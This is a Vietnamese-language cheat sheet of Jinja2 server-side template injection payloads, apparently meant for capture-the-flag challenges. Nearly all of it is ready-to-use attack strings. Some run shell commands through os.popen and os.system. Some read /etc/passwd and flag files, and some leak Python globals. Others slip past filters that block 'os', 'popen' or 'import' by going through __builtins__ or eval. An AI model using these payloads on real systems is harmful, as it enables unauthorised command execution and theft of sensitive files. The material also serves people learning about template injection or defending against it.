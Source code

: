 # Jinja2 Template Injection Cheat Sheet

## 1. Các Object có sẵn (tuỳ web)

| Biến | Ý nghĩa | Tác dụng |
|------|---------|----------|
| `config` | Config Flask / Django | Có `os` trong `__globals__` |
| `cycler` | Object có sẵn | Có thể leak `__init__` hoặc `__class__` |
| `namespace` | Object có sẵn | Dùng được `__globals__` |
| `self` | Biến object hiện tại | Có `__class__` |
| `request` | Flask object | Có `application` → `__globals__` |

---

## 2. Payload RCE

### Truy cập os:
```python
{{ config.__class__.__init__.__globals__.os.popen('ls').read() }}
```

Nếu `config` không có → Dùng:
```python
{{ cycler.__init__.__globals__.os.popen('ls').read() }}
{{ namespace.__init__.__globals__.os.popen('ls').read() }}
{{ request.application.__globals__.os.popen('ls').read() }}
```

---

## 3. Local File Read (LFI)

Ví dụ đọc flag:
```python
{{ namespace.__init__.__globals__.open('/flag.txt').read() }}
```

---

## 4. Leak Biến Toàn Cục

```python
{{ namespace.__init__.__globals__.keys() }}
{{ cycler.__init__.__globals__.keys() }}
```

---

## 5. Bypass Filter `os` hoặc `popen`

```python
{{ namespace.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}
```

---

## 6. Bypass WAF filter `popen` hoặc `import`

Nếu bị chặn `popen`:
```python
{{ namespace.__init__.__globals__.os.system('ls') }}
```

Nếu chặn `import`:
```python
{{ eval('__import__("os").popen("ls").read()') }}
```

---

## 7. Thao Tác Biến Python

Leak version python:
```python
{{ namespace.__init__.__globals__.sys.version }}
```

---

## 8. Đọc file `/etc/passwd`:

```python
{{ namespace.__init__.__globals__.open('/etc/passwd').read() }}
```

---

## 9. Auto Scan Object trong Template:

```python
{{ ''.__class__.mro()[1].__subclasses__() }}
```

Tìm class:
```python
<class 'warnings.catch_warnings'>
<class 'os._wrap_close'>
```

---

## Tổng Kết

| Mục đích | Payload |
|----------|---------|
| RCE | `namespace.__init__.__globals__.os.popen('ls').read()` |
| LFI | `open('/flag').read()` |
| Leak key | `.__globals__.keys()` |
| Import thủ công | `__builtins__.__import__('os')` |
| Truy cập object | `request.application.__globals__` |
